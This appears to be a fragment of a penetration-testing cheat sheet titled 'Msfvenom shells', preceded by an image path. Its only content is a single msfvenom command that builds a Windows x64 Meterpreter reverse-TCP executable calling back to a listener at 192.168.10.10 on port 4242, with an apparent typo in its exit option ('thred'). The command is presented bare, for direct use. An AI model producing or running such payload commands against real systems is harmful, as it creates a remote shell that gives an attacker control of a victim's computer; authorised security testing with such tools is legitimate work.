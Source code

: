 # Msfvenom shells

## x64 Meterpreter Shell
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.10.10 LPORT=4242 EXITFUNC=thred -f exe > shell-x64.exe
```